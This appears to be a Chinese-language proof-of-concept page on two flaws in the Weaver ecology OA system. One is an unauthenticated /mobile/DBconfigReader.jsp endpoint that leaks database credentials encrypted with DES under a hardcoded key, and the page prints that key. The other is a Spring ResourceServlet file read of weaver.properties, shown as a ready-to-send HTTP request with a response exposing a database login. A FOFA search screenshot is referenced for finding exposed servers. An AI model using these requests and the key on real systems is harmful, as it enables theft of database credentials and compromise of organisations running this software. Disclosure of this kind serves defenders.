 
# 泛微ecology OA系统接口存在数据库配置信息泄露漏洞

## /mobile/DBconfigReader.jsp

` http://x.x.x.x:8090/mobile/DBconfigReader.jsp`

![](./dbconfig.png)

![](./fofa.png)

## Fortify 代码审计 检测出-弱加密算法
![](./Fortify.jpg)

`SecretKey key = SecretKeyFactory.getInstance("DES").generateSecret(dks1);`

```
<%@ page language="java" contentType="text/html; charset=UTF-8"%>
<%@ page import="weaver.file.Prop" %>
<%@ page import="javax.crypto.spec.DESKeySpec" %>
<%@ page import="javax.crypto.*" %>
<%
	String conStr=Prop.getPropValue("weaver","ecology.url");
	String conUser=Prop.getPropValue("weaver","ecology.user");
	String conPsw=Prop.getPropValue("weaver","ecology.password");
	String loginType=Prop.getPropValue("weaver","authentic");
//	StringBuffer sb = new StringBuffer();
//	sb.append("url="+conStr+",");
//	sb.append("user="+conUser+",");
//	sb.append("password="+conPsw);
	String sb="url="+conStr+",user="+conUser+",password="+conPsw+",logintype="+loginType;
 	byte[]  str = sb.getBytes();
	String keyString = "1z2x3c4v5b6n";
	byte[] keyByte = keyString.getBytes();
	// 创建一个密匙工厂，然后用它把DESKeySpec对象转换成一个SecretKey对象
	DESKeySpec dks1 = new DESKeySpec(keyByte);
    SecretKey key = SecretKeyFactory.getInstance("DES").generateSecret(dks1);
	Cipher cipher = Cipher.getInstance("DES");
	cipher.init(Cipher.ENCRYPT_MODE, key);  
	byte[] cipherText = cipher.doFinal(str);
	//System.out.println(cipherText.length);
	ServletOutputStream sos = response.getOutputStream();
	sos.write(cipherText);
	sos.flush();
	sos.close();
%>
```

## 文件读取漏洞 org.springframework.web.servlet.ResourceServlet
![](./fileread.png)

https://docs.spring.io/spring/docs/3.0.x/javadoc-api/org/springframework/web/servlet/ResourceServlet.html

泛微-数据库配置文件：`/WEB-INF/prop/weaver.properties`

```
GET /weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/prop/weaver.properties HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Server: Resin/3.1.8
Cache-Control: private
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
Set-Cookie: ecology_JSessionId=xxxxxx; path=/
Content-Length: 609
Connection: close
Date: Mon, 13 Jul 2020 08:13:13 GMT

ecology.overtime=60
DriverClasses = com.microsoft.jdbc.sqlserver.SQLServerDriver
ecology.url=jdbc\:sqlserver\://127.0.0.1\:1433;DatabaseName\=ecology
ecology.maxconn=300
ecology.user=sa
ecology.password=123456
ecology.charset=ISO
LOG_FORMAT=yyyy.MM.dd'-'hh\:mm\:ss
ecology.isgoveproj=0
DEBUG_MODE=false
```

